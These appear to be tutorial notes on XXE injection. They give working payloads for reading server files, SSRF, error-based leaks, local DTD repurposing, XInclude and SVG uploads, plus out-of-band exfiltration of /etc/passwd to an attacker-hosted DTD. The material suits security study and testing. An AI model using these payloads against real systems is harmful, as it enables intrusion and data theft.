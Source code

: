 # Exploiting XXE to retrieve files

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Exploiting XXE to perform SSRF attacks

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

# Detecting blind XXE using out-of-band (OAST) techniques

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

# Exploiting blind XXE to exfiltrate data out-of-band

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

 - Defines an XML parameter entity called _file_, containing the contents of the _/etc/passwd_ file.
 - Defines an XML parameter entity called _eval_, containing a dynamic declaration of another XML parameter entity called _exfiltrate_. The _exfiltrate_ entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the _file_ entity within the URL query string.
 - Uses the _eval_ entity, which causes the dynamic declaration of the _exfiltrate_ entity to be performed.
 - Uses the _exfiltrate_ entity, so that its value is evaluated by requesting the specified URL.

\&#x25; = (hex) %

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver.  
For example, the attacker might serve the malicious DTD at the following URL:

```
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD.  
This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.  
The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.

# Exploiting blind XXE to retrieve data via error messages

```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called _file_, containing the contents of the _/etc/passwd_ file.
- Defines an XML parameter entity called _eval_, containing a dynamic declaration of another XML parameter entity called _error_. The _error_ entity will be evaluated by loading a nonexistent file whose name contains the value of the _file_ entity.
- Uses the _eval_ entity, which causes the dynamic declaration of the _error_ entity to be performed.
- Uses the _error_ entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the _/etc/passwd_ file.


```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

# Exploiting blind XXE by repurposing a local DTD

The preceding technique works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

So what about blind XXE vulnerabilities when out-of-band interactions are blocked? You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In this situation, it might still be possible to trigger error messages containing sensitive data, due to a loophole in the XML language specification. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

This means that an attacker can employ the error-based XXE technique from within an internal DTD, provided the XML parameter entity that they use is redefining an entity that is declared within an external DTD. Of course, if out-of-band connections are blocked, then the external DTD cannot be loaded from a remote location. Instead, it needs to be an external DTD file that is local to the application server. Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. This technique was pioneered by Arseniy Sharoglazov, and ranked #7 in our top 10 web hacking techniques of 2018.

For example, suppose there is a DTD file on the server filesystem at the location /usr/local/app/schema.dtd, and this DTD file defines an entity called custom_entity. An attacker can trigger an XML parsing error message containing the contents of the /etc/passwd file by submitting a hybrid DTD like the following:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

\&#x26;#x25; = &%  
\&#x27; = '

This DTD carries out the following steps:

- Defines an XML parameter entity called _local_dtd_, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called _custom_entity_, which is already defined in the external DTD file. The entity is redefined as containing the error-based XXE exploit that was already described, for triggering an error message containing the contents of the /etc/passwd file.
- Uses the _local_dtd_ entity, so that the external DTD is interpreted, including the redefined value of the _custom_entity_ entity. This results in the desired error message.

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search.

# Finding hidden attack surface for XXE injection

## XInclude attacks

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
___
Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Code to embed in a SVG file to get the victim hostname  
Source: [jakekarnes42's GitHub](https://gist.github.com/jakekarnes42/b879f913fd3ae071c11199b9bd7ba3a7?short_path=f3432ae)

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
___

Change Conte-Type, example:  

from _application/x-www-form-urlencoded_ to _text/xml_ which results in _foo=bar_ to _\<?xml version="1.0" encoding="UTF-8"?>\<foo>bar\</foo>_